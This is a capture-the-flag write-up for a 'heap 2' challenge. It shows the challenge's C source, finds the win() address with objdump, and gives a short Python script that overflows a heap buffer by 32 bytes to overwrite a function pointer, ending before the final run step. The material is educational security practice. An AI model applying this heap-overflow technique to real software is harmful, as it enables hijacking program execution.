



# heap 2
**Description:** Can you handle function pointers?

---

## Steps to Solve

### 1. Inspect the Source Code
To print the flag, we need to execute the `check_win()` function. This function uses a function pointer to the address stored in the variable `x`. Our task is to control the value of `x` and make it point to the address of the `win()` function.

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }
```

---

### 2. Analyze the Program
To find the address of the `win()` function, we can use `objdump` to disassemble the binary and locate the function's address.

```bash
objdump -d chall | grep win
```



From the output, we know that the `win()` function is located at address `0x00000000004011a0`.

Next, we need to determine the program's endianness to correctly write the address of the `win()` function into the `x` variable. The output below indicates that the program uses **little-endian** format.



---

### 3. Run the Program
When running the program, we observe the following memory layout:

- `x` is located at `0x17c02b0`
- `safe_var` is located at `0x17c02d0`

The difference between these addresses is 32 bytes. This means we need to input 32 ASCII characters to overwrite `x` with our desired value. By appending the address of the `win()` function to the input, we can overwrite `x` with the correct address.

---

### 4. Exploit the Program
Since we cannot directly input the address of the `win()` function into the `x` variable, we will use a Python script to construct the payload.

```python
import sys

address = b'00000000004011a0'
little_endian_address = bytes.fromhex(address.decode('utf-8'))[::-1]
sys.stdout.buffer.write(b'2\n' + b'A' * 32 + little_endian_address + b'\n' + b'4\n')
```

Run the script and pipe its output to the program:

